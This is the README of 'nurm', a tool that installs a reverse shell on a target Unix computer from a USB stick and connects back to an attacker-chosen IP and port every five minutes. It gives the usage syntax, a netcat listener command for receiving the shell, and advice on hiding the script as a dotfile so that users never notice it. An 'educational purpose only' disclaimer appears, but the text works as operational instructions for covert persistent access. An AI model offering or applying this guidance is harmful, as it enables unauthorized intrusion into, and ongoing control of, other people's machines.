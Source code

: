 **This project is for educational purpose only**

## What is nurm?
"Now You Are Mine"(nurm) is an automatic reverse shell script that is designed to be placed and run on the target unix computer via the portable usb drive.

## What does it do?
Once run from the usb, nurm will send the reverse shell to any ip address and port that the user specified every five minutes, allowing the following device with the given ip address to access an interactive shell of the target given that the device is listening to the port specified.

## Usage
1) Download the script to your favorite usb stick
2) Run the script on the target machine once.  
   **Usage(v 1.0)**: `./nurm [path] [ip address] [port]`  
   [path] - the file that the reverse shell script will be stored  
   [ip address] - the ip address that the reverse shell will be sent through.  
   [port] - the port that is used for the udp connection  
3) Use nc -lvp [port] on the ip address  
4) The interactive shell will be sent every 5 minutes

## Precautions/ Tips
1) Always hide the file with ".". For example, .test. This way, many unexperienced users will never be ware of the script
2) The listening device should either be a server or a computer with static ip address. Otherwise, your computer can only be used once.
3) **This script is for educational purpose only. Don't use it to do illegal activities. You are the only responsible for your actions!**

## Status
Currently only support netcat reverse shell

## Upcoming features
- config files for script customization
- most common language support

